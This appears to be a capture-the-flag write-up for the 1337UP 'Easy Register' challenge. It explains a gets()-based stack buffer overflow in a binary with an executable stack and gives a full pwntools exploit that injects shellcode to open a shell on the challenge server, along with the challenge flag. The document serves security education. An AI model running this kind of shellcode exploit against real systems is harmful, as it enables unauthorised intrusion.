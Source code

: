 ```yaml
---
title: 1337UP CTF pwn-easyregister
author: jopraveen
date: 2022-03-13
categories: [1337UP]
tags: [CTFtime]
excerpt: Write up for the challenge "Easy Register" from 1337UP CTF
---
```


## Easy Register

![](https://i.imgur.com/urPqzh3.png)

- First let's download and analyze the binary

#### Info
- ELF 64-bit executable
- Dynamically linked
- Not stripped

**checksec:**

![](https://i.imgur.com/FLpgy9B.png)
- The Stack is executable because NX is disabled
- First let's run the binary and see what it gives

#### Analyzing

```js
➜  pwn  ./easy_register 
  _ _______________ _   _ ____  
 / |___ /___ /___  | | | |  _ \ 
 | | |_ \ |_ \  / /| | | | |_) |
 | |___) |__) |/ / | |_| |  __/ 
 |_|____/____//_/   \___/|_|    
                                
[i] Initialized attendee listing at 0x7ffd0421cac0.
[i] Starting registration application.

Hacker name > jopraveen

[+] Registration completed. Enjoy!
[+] Exiting.
```
- We have a leak `0x7ffd0421cac0`
- Most likely, this will be the starting address of our buffer 
- Then we're prompted to give our name
- May be there's a buffer overflow?
- Let's decompile this binary and see what it does :D

![](https://i.imgur.com/AR1b2AI.png)
- Cool, they're using gets and it's vulnerable to buffer overflow
- Find the offset to Instruction pointer (I didn't mention it in the post because it's very easy)
- Now let's write our exploit

```python
from pwn import *

elf = context.binary = ELF('easy_register')
p = elf.process()
p = remote('easyregister.ctf.intigriti.io',7777)

p.recvuntil('listing at ')
stack_buffer = int(p.recvline().replace(b'.',b''),16)
log.success(f'stack leak: {hex(stack_buffer)}')
```
- First let's store the leak in a variable

```python
payload = asm(shellcraft.sh()) # shellcode
payload += b'A'*(88 - len(payload)) # junk
payload += p64(stack_buffer) # buffer base address
```
- Let's put our shellcode at the beginning and fill some junk until RIP
 
*Note: Offset to RIP is **88*** 

- Finally let's overwrite the Instruction pointer with the leaked value (our input buffer's starting address)

### Full exploit
```python
from pwn import *

elf = context.binary = ELF('easy_register')
p = elf.process()
p = remote('easyregister.ctf.intigriti.io',7777)

p.recvuntil('listing at ')
stack_buffer = int(p.recvline().replace(b'.',b''),16)
log.success(f'stack leak: {hex(stack_buffer)}')

payload = asm(shellcraft.sh())
payload += b'A'*(88 - len(payload))
payload += p64(stack_buffer)

p.sendline(payload)
p.interactive()
```

![](https://i.imgur.com/XzfYQ6L.png)
- We got our flag `1337UP{Y0u_ju5t_r3g15t3r3d_f0r_50m3_p01nt5}`
    
    
    

